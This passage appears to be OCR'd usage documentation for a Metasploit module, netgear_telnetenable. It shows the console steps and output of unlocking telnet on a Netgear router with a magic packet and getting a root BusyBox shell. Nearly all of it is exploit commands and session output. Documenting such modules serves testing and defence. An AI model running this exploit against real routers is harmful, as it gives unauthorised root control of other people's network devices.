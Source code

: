 ```
       --  ----
       0   Automatic (detect TCP or UDP)
    
    
    msf exploit(linux/telnet/netgear_telnetenable) > set RHOST 192.168.1.1
    RHOST => 192.168.1.1
    set msf exploit(linux/telnet/netgear_telnetenable) > set username admin
    username => admin
    msf exploit(linux/telnet/netgear_telnetenable) > set password testing123
    password => testing123
    msf exploit(linux/telnet/netgear_telnetenable) > set MAC D56C89FC94C9
    MAC => D56C89FC94C9
    msf exploit(linux/telnet/netgear_telnetenable) > exploit
    
    [+] 192.168.1.1:23 - Detected telnetenabled on UDP
    [+] 192.168.1.1:23 - Using creds admin:testing123
    [*] 192.168.1.1:23 - Generating magic packet
    [*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
    [*] 192.168.1.1:23 - Sending magic packet
    [*] 192.168.1.1:23 - Disconnecting from telnetenabled
    [*] 192.168.1.1:23 - Waiting for telnetd
    [*] 192.168.1.1:23 - Connecting to telnetd
    [*] Found shell.
    [*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.1:23) at 2020-06-30 15:14:08 -0500
    
    
    
    Login incorrect
     login: admin
    admin
    Password: testing123
    
    
    
    BusyBox v1.7.2 (2019-07-29 20:56:07 CST) built-in shell (ash)
    Enter 'help' for a list of built-in commands.
    
    # id
    id
    uid=0(admin) gid=0(root)
    # uname -a
    uname -a
    Linux R6700v3 2.6.36.4brcmarm+ #17 SMP PREEMPT Mon Jul 29 19:43:55 CST 2019 armv7l unknown
    #
```
